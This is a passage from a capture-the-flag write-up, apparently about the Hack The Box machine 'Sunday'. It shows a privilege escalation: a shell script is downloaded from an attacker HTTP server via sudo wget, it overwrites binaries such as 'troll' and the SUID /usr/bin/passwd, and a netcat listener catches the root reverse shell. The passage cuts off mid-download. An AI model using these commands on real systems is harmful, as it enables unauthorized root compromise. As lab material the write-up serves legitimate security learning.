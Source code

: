     
    
    root@kali# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.76 - - [27/Sep/2018 21:11:58] "GET /shell.py HTTP/1.0" 200 -
    

Run it with sunny:

    
    
    sunny@sunday:~$ sudo /root/troll
    

And get callback:

    
    
    root@kali# nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.5] from (UNKNOWN) [10.10.10.76] 56164
    root@sunday:~# id
    uid=0(root) gid=0(root) groups=0(root),1(other),2(bin),3(sys),4(adm),5(uucp),6(mail),7(tty),8(lp),9(nuucp),12(daemon)
    

This is a bit trickier to pull off than it one might think at first, if you
aren’t quick _and_ lucky. That’s because of the `overwrite` script resetting
`troll` to it’s original self every 5 seconds. Check out the Beyond Root
section where I’ll look at detecting this. But for the sake of making it work,
have the windows close together and run `wget` as sammy immediately followed
by `troll` as sunny.

Here’s how I did it, with SimpleHTTPServer in the top window, then sammy SSH,
then sunny SSH, and then nc listener to catch root shell:

![1538099855160](https://0xdfimages.gitlab.io/img/sunday-troll-priv.gif)

#### Overwrite Different SUID Binary

If catching troll before it reverts was too much, it’s certainly easier to
just overwrite a different set uid binary. Just make a backup copy of the
original first, so you can put it back after exploiting. For example,
`/usr/bin/passwd`:

    
    
    sammy@sunday:~$ cp /usr/bin/passwd /tmp
    sammy@sunday:~$ ls -la /usr/bin/passwd
    -r-sr-sr-x 1 root sys 31584 2009-05-14 21:18 /usr/bin/passwd
    sammy@sunday:~$ sudo wget -O /usr/bin/passwd http://10.10.14.5/shell.py
    --02:09:34--  http://10.10.14.5/shell.py
               => `/usr/bin/passwd'
    Connecting to 10.10.14.5:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 246 [application/octet-stream]
    
    100%[==========================================================================================================================================================================================================>] 246           --.--K/s
    